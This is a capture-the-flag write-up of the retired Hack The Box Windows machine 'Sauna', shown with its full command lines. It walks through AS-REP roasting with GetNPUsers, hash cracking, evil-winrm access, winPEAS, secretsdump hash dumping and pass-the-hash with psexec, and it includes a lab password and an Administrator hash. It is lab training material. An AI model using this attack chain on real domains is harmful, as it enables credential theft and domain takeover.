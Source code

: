 ```yaml
---
title: "Hackthebox Sauna Writeup"
date: 2020-07-20 00:00:00 +0530
categories: [HACKTHEBOX, Retired]
tags: [htb]
---
```

![img1]({{ "/assets/img/Posts/sauna/1.png" | relative_url }})

Let's begin the journey of exploiting the box. It's an easy windows box with 20 points. We will be utilizing some of the tools such as [EvilWinRm](https://github.com/Hackplayers/evil-winrm) , [GetNPUsers](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py) , winPEAS , and mimikatz.exe and secretdump.py for privilege escalation.


# **Enumeration**

We would be running [nmapAutomator](https://github.com/21y4d/nmapAutomator) tool which would cover all types of basic enumeration.

```console
./nmapAutomator 10.10.10.175 All
```

The result is as below

```console
Nmap scan report for 10.10.10.175
Host is up (0.30s latency).
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020–07–17 03:55:16Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=7/16%Time=5F10BD89%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,”\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\SF:x04bind\0\0\x10\0\x03");
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49673/tcp open msrpc Microsoft Windows RPC
49674/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49675/tcp open msrpc Microsoft Windows RPC
49686/tcp open msrpc Microsoft Windows RPC
58118/tcp open msrpc Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 7h05m02s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2020–07–17T03:57:44
|_ start_date: N/A
```

There are a bunch ports open lets list down the ports which would be useful in exploiting the box. There is Web server running at port 80. We have kerberos service running at port 389 and 3268 .We also got the domain name which got revealed by ldap service EGOTISTICAL-BANK.LOCAL .

I moved on to enumerating with enum4linux but didn't find any usernames. We even tried enumerating the SMB but didn't found something interesting .

As we got the HTTP port open lets enumerate the website.

![img2]({{ "/assets/img/Posts/sauna/2.png" | relative_url }})

After visiting the website found some user names in the "About-us"

![img3]({{ "/assets/img/Posts/sauna/3.png" | relative_url }})

Let's take a note of the usernames with a type of combination which would help us in enumeration during the ldap and kerberos. Below is the format in which we could form the user.txt.

![img4]({{ "/assets/img/Posts/sauna/4.png" | relative_url }})

After getting some usernames. We would be using the Impacket tool which has a GetNPUsers python script that returns the TGT(Ticket Granting Ticket) only if the user account doesn't need kerberos per-authentication.


# **Exploitation**

Now we would run the GetNPUsers.py against the domain name which will give us the TGT for the user FSmith.

```console
$ python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile user.txt -outputfile tgt.txt -dc-ip 10.10.10.175
```
![img5]({{ "/assets/img/Posts/sauna/5.png" | relative_url }})

![img6]({{ "/assets/img/Posts/sauna/6.png" | relative_url }})

After cracking the hash with john using rockyou.txt file we achieved the password for

>FSmith : Thestrokes23

![img7]({{ "/assets/img/Posts/sauna/7.png" | relative_url }})

Now we will login using evil-winrm.

![img8]({{ "/assets/img/Posts/sauna/8.png" | relative_url }})

After logging in as FSmith we got the user.txt file. Now lets move on to the post-exploitation.

![img9]({{ "/assets/img/Posts/sauna/9.png" | relative_url }})


# **Post-Exploitation**

Let us first list down the users present .

![img10]({{ "/assets/img/Posts/sauna/10.png" | relative_url }})

The method is to use "winPEAS.exe" to collect information and get the password of svc_loanmgr and as we got DPAPI Master key which we could attack with mimikatz.

![img11]({{ "/assets/img/Posts/sauna/11.png" | relative_url }})

Then execute the winPEAS.exe file . Below are some interesting finding.

![img12]({{ "/assets/img/Posts/sauna/12.png" | relative_url }})

Now we have got the default password for svc_loanmgr user .

In the results of ./winPEAS.exe we got DPAPI master key which we could attack with mimikatz.

Lets dump the hashes by [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

```console
$ python3 secretsdump.py EGOTISTICAL-BANK/svc-loanmgr@10.10.10.175
```

![img13]({{ "/assets/img/Posts/sauna/13.png" | relative_url }})

Now lets use the Administrator hash to get logged in using the [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)


```console
$ python3 python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff Administrator@10.10.10.175
```

![img14]({{ "/assets/img/Posts/sauna/14.png" | relative_url }})

Bingo we have successfully rooted the box .


**By Swar Shah**
<br>

![img15]({{ "/assets/img/Posts/sauna/15.png" | relative_url }})
